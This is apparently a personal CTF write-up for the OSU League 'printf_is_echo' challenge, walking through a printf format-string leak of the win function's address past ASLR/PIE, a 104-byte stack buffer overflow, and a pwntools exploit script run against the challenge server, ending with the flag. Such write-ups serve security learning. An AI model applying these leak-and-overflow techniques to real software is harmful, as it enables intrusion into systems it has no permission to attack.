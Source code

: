 ```yaml
---
title: "OSU League 2020/2021 - printf_is_echo Writeup"
date: 2020-11-04
tags:
  - osuleague
  - ctf
  - security
---
```


Oh boy. We got by the title what looks to be some sort of challenge involving printf.  Let's run the binary and take a look.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
I give up
```

Uh oh, so ASLR is enabled.  This means we don't know what the address of the win function will be since it changes every time.  If only there was a way to leak addresses from the stack, we might be able to get something.  Well, maybe we can.  

If the `printf` is used in an insecure way, directly passing user controled variables as arguments to the funtion, then we can make really bad things happen.

For example.  What would happen if we have a printf function like this:
`printf(userinput);`
and we passed in `%p`?

Well, it will treat the `%p` as an argument and print the pointer data on the stack.  Let's try it out with the program.

```
%p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p
0x7ffdc72101a0, 0x7fb27237f8d0, 0xf, (nil), 0x7fb2725934c0, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, (nil), 0x5646bc24d79a, 0x5646bc24d690, 0x7ffdc7210210,
I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
```

Well sweet, looks like we got some leaked addresses.  Not only that, but there is an address in the 16th spot that ends in `0x79a`. That's our win function!!

We can make this a bit cleaner by just inputing `%16$p`.  Let's verify this works and we get the right address.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
%16$p
0x557959a5079a

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
```

Awesome.  Next step now that we have the win function is to try to get our program to return to it. This will probably be accomplised via a buffer overflow attack on the second input option. And after messing around a bit, I was able to find that the buffer we had was going to be 104 bytes before we started overwriting the instruction pointer:

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/printf_is_echo
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0xf
RDX: 0x7ffff7dd18d0 --> 0x0
RSI: 0x7fffffffde80 ('A' <repeats 96 times>, "BBBBBBBB\n")
RDI: 0x7fffffffde81 ('A' <repeats 95 times>, "BBBBBBBB\n")
RBP: 0x4242424242424242 ('BBBBBBBB')
```

So, we have a way of getting the address of win(), we know our padding size. We can now build an exploit!

```python
from pwn import *
import os, sys
#io = process('./printf_is_echo')
io = remote('ctf.ropcity.com', 31338)

context(arch = "amd64")

io.recvuntil("try it!\n")

printf = "%16$p"

io.sendline(printf)

win = int(io.recvline(), 16)
log.info(win)

padding = b'A'*104
io.recvuntil('unhackable')
payload = padding + p64(win)

io.sendline(payload)
io.interactive()
```

And after running it we get the flag!

```
[+] Opening connection to ctf.ropcity.com on port 31338: Done
[*] 94681416755098
[*] Switching to interactive mode

osu{F0rMa7_$tRing_1s_FUN}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x03
[*] Got EOF while reading in interactive
```
Nice! That was a fun challenged and learned a lot about how format string vulns work!
